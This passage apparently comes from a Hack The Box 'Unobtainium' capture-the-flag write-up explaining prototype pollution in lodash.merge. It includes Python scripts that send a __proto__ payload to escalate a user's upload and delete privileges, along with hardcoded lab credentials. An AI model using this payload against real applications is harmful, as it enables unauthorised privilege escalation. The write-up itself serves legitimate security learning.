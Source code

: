 ## Prototype pollution on loadash.merge
Also I found an amazing article on [synk](https://snyk.io/vuln/SNYK-JS-LODASHMERGE-173732) explaining the vulnerability on loadsh.merge and the ways to exploit them.
![1](/assets/images/htb-boxes/unobtainium/Pasted image 20210612091031.png)
![1](/assets/images/htb-boxes/unobtainium/Pasted image 20210612091107.png)
Looks like we can achieve admin privileges with the felamos user if we are able to pollute the prototype.

## How _.merge works
- Reference: [Geeksforgeeks](https://www.geeksforgeeks.org/lodash-_-merge-method/)
![1](/assets/images/htb-boxes/unobtainium/Pasted image 20210612091307.png)

### Example
- Reference: [Geeksforgeeks](https://www.geeksforgeeks.org/lodash-_-merge-method/)
![1](/assets/images/htb-boxes/unobtainium/Pasted image 20210612091355.png)


## Payload for prototype pollution
- Reference: [github](https://github.com/kimmobrunfeldt/lodash-merge-pollution-example)
![1](/assets/images/htb-boxes/unobtainium/Pasted image 20210612105850.png)

## Writing python code
I decided to write a simple python script to imitate the PUT and POST requests that we have already seen on wireshark.
### put.py
```py
#!/usr/bin/python3
import requests
url = "http://unobtainium.htb:31337"

payload = {"__proto__":{ "canUpload": True,"canDelete":True }}


data ={"auth":{"name":"felamos","password":"Winter2021"},"message":payload} 
headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) unobtainium/1.0.0 Chrome/87.0.4280.141 Electron/11.2.0 Safari/537.36",
        "Content-Type": "application/json"}
r = requests.put(url=url,json=data,headers=headers)
print(r.text)
```

### upload.py
```py
#!/usr/bin/python3
import requests
url = "http://unobtainium.htb:31337/upload"

#payload = {"messageId":1}


data ={"auth":{"name":"felamos","password":"Winter2021"},"filename":"upload.py"} 
headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) unobtainium/1.0.0 Chrome/87.0.4280.141 Electron/11.2.0 Safari/537.36",
        "Content-Type": "application/json"}
r = requests.post(url=url,json=data,headers=headers)
```